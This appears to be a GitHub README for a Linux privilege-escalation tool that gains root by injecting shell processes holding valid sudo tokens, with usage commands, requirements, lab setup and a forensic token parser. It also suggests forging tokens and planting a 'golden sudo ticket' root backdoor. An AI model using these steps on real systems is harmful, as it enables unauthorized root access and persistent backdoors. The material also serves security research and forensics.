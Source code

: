 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## Introduction

We all noticed that sometimes sudo doesn't ask us for a password because he remembers us. How does he remember us and how does he identify us, can we falsify our identity and become *root*?
As far as I know this research is not yet documented, but let me know if it is.
Indeed sudo creates a file for each linux user in /var/run/sudo/ts/[username].
These files contain both successful and failed authentications, then sudo uses these files to remember the authenticated processes. -- [@chaignc][]

This repository provides you:
* A way to gain root privilege by abusing sudo tokens (Don't be too happy there are requirements).
* A tool to forge sudo tokens for a given process. (write_sudo_token in ./extra_tools/).
* A tool to parse sudo tokens for forensic. (read_sudo_token_forensic and read_sudo_token in ./extra_tools).
* A technique to transform any root arbitrary file write into stable root code execution.  


## How to exploit a vulnerable system
PS: read requirements!!
```sh
$ sudo whatever
[sudo] password for user:    # Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.
$ ./exploit.sh # This activates our sudo token.
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
* Ptrace fully enabled (cat /proc/sys/kernel/yama/ptrace_scope == 0).
* Current user must have living process that has a valid sudo token with the same uid.

```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```

## What's happenning behind the scene?

exploit.sh injects all shell processes owned by the current user and use their sudo token to validate our own sudo token. It's barely 3 lines of shell, have a look.

## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the user uses sudo then you can easily get root by stealing his token.

## How to simulate in lab?

```sh
# echo 0 > /proc/sys/kernel/yama/ptrace_scope
# # Don't worry this is not persistent accross reboot
```
Start two terminals:
* one to type sudo and enter the right password (example: sudo ls).
* another to start the exploit as described above.

## Going further

### Forensic, DFIR ?

Printing to be improved but each process sudo attempt has one entry in /var/run/sudo/ts/[username].
Also this files are stored in tmpfs(ram), one could write a volatility plugin to parse this information to gather sudo attempt.
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Arbitrary write to root

If you have an abitrary write you can create a sudo token for you current process to gain root code execution.
checkout './write_sudo_token $$ > /var/run/sudo/ts/[username]' in extra_tools,

### Golden sudo tickets

A very good way to create a secret root backdoor on servers that rarely reboots.
Not done yet but checkout './write_sudo_token $$' in ./extra_tools

### Why

I was looking for a way to steal dead process sudo token, but it doesn't look possible because they are associated by ((process start time and process session id) or (tty start time and tty session id)). Session id (process pid) can be impressionnated but the process start time is not fakable.

## Links

[Parsing /proc/[pid]/stat](https://www.redhat.com/archives/axp-list/2001-January/msg00355.html)

[Sudo token struct](https://www.sudo.ws/man/1.8.25/sudoers_timestamp.man.html)

[Linux based inter process code injection without ptrace](https://blog.gdssecurity.com/labs/2017/9/5/linux-based-inter-process-code-injection-without-ptrace2.html)

[Moving a process to another terminal](https://blog.habets.se/2009/03/Moving-a-process-to-another-terminal.html)

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc
